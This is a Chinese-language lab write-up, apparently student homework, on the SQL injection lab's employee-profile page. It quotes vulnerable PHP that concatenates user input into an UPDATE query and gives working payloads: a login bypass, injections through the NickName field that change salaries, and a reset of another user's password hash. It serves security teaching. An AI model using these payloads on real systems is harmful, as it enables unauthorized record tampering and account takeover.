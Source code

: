 ------

- 首先我们要知道员工修改信息机制， `/var/www/SQLInjection`目录下的`unsafe edit backend.php`中关于修改信息的代码如下：

  ```
  $hashed_pwd = sha1($input_pwd);
  $sql = "UPDATE credential SET
  nickname=’$input_nickname’,
  email=’$input_email’,
  address=’$input_address’,
  Password=’$hashed_pwd’,
  PhoneNumber=’$input_phonenumber’
  WHERE ID=$id;";
  $conn->query($sql);
  ```

  

- 修改工资

  **修改自己工资**

  - 从上述代码我们知道，员工只可以修改自己的nicknames, emails, addresses, phone numbers, and passwords;但是不能改工资，这里假设我是Alice，通过SQL注入攻击修改自己工资。

  - 用用户名“`Alice' or '1'='1`”，密码“`1‘=‘1`’’登录Alice用户，如图：

    ![image-20200512213705809](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-1-9.png)

  - 进入`Edit Profile`，在NickName那里输入语句`', salary='30000' where EID='10000';#`，这样`#`后面的就会被注释，所以就直接执行`set salary='30000' where EID = '10000' `这个指令，直接修改工资。更新后我们回去看自己的profile应该能看到是已经修改成功的，证明我们的攻击成功。

    ![image-20200512214429322](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-1-10.png)

  **修改他人工资**

  - 假设Boby是Alice老板，现在我是Alice身份，去惩罚一下我的老板，把他工资降到1美元。

  - 还是登录的Alice用户，进入`Edit Profile`，在NickName那里输入语句`', salary='1' where Name='Boby';#`，这样`#`后面的就会被注释，所以就直接执行`UPDATE credential SET nickname=’’, salary=’1‘ where Name=’Boby‘ `这个指令，直接修改工资。还是上述方式登录admin，验证攻击成功，如图：

    ![image-20200512215600267](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-1-11.png)

  **修改他人密码**

  - 从`unsafe edit backend.php`中发现密码是经SHA1加密的，执行`echo -n "123123" | sha1sum`得到“123123”的sha1值为`601f1889667efaebb33b8c12572835da3f027f78`，

  - 还是登录的Alice用户，进入`Edit Profile`，在NickName那里输入语句`', Password='601f1889667efaebb33b8c12572835da3f027f78' where Name='Boby';#`，这样`#`后面的就会被注释，所以就直接执行`UPDATE credential SET nickname='', Password='601f1889667efaebb33b8c12572835da3f027f78' where Name='Boby' `这个指令，直接修改密码。

  - 使用“123123”的密码登录Boby用户，可以成功登录，说明攻击成功，如图：

    ![image-20200512224959960](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-1-12.png)

------
